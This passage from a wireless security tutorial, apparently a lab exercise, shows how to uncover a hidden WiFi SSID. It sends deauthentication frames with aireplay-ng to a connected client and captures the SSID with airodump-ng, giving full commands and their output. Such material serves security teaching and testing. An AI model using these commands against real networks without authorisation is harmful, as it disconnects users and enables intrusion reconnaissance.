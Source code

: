 * * *

### Detecting Hidden SSID using Deauth

The first way to find a hidden SSID is to perform a deauthentication attack on the clients connected to the WiFi network, which allows us to capture the request when they reconnect. From the above `airodump-ng` scan, we observed that a client with the STATION ID `02:00:00:00:02:00` is connected to the BSSID `B2:C1:3D:3B:2B:A1`. Let's start the `airodump-ng` capture on channel `1` and use `aireplay-ng` to send deauthentication requests to the client.

We should start sniffing our network on `channel 1` with airodump-ng.

```shell
sudo airodump-ng -c 1 wlan0mon

```

In order to force the client to send a probe request, it needs to be disconnected. We can do this with aireplay-ng.

```shell
sudo aireplay-ng -0 10 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan0mon

12:34:56  Waiting for beacon frame (BSSID: B2:C1:3D:3B:2B:A1) on channel `
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|60 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|57 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|61 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|60 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|59 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|58 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|58 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|58 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|55 ACKs]

```

After sending the deauthentication requests using `aireplay-ng`, we should see the name of the hidden SSID appear in `airodump-ng` once the client reconnects to the WiFi network. This process leverages the re-association request, which contains the SSID name, and allows us to capture and identify the hidden SSID.

```shell
sudo airodump-ng -c 1 wlan0mon

CH  1 ][ Elapsed: 0 s ][ 2024-05-21 20:45

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 B2:C1:3D:3B:2B:A1  -47   0        9        0    0   1   54   WPA2 CCMP   PSK  jacklighters

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 B2:C1:3D:3B:2B:A1  02:00:00:00:02:00  -29    0 -24      0        4         jacklighters

```

